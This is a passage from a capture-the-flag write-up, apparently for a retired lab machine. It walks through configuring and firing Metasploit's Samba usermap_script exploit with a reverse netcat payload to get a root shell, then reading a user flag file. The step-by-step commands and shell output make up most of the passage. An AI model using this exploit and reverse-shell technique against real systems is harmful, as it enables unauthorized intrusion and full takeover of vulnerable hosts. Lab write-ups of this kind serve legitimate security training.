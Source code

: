 
After looking through a lot of the exploits I started thinking methodically about it and looked athe the exploit description to see what I want. And I started to look for all the command execution scripts. There were 3 of them but luckly one of them worked the one that is highlighted. 

---
### Step 4 - Privilage Escalation
---

After using metasploit to select the correct exploit I was able to easily get root.

    msf5 exploit(multi/samba/usermap_script) > options 

    Module options (exploit/multi/samba/usermap_script):

    Name    Current Setting  Required  Description
    ----    ---------------  --------  -----------
    RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT   139              yes       The target port (TCP)


    Payload options (cmd/unix/reverse_netcat):

    Name   Current Setting  Required  Description
    ----   ---------------  --------  -----------
    LHOST  10.10.14.5       yes       The listen address (an interface may be specified)
    LPORT  4444             yes       The listen port


    Exploit target:

    Id  Name
    --  ----
    0   Automatic
    
    
    msf5 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
    rhosts => 10.10.10.3
    
    
    
    options – shows the things we need to modify to make this exploit work
    rhosts – is your target host IP
    rport – target port, we will keep this default, but remember there is another samba client running on port 445, which we can also try if the default port doesn’t work.

    msf5 exploit(multi/samba/usermap_script) > exploit

    [*] Started reverse TCP handler on 10.10.14.5:4444 
    [*] Command shell session 1 opened (10.10.14.5:4444 -> 10.10.10.3:36884) at 2020-10-12 10:01:11 -0400

    whoami
    root
    pwd
    /


    cd ..
    cd home
    ls
    ftp
    makis
    service
    user
    cd makis
    ls
    user.txt
    cat user.txt
    69454a937d94f5f0225ea00acd2e84c5
    cd ..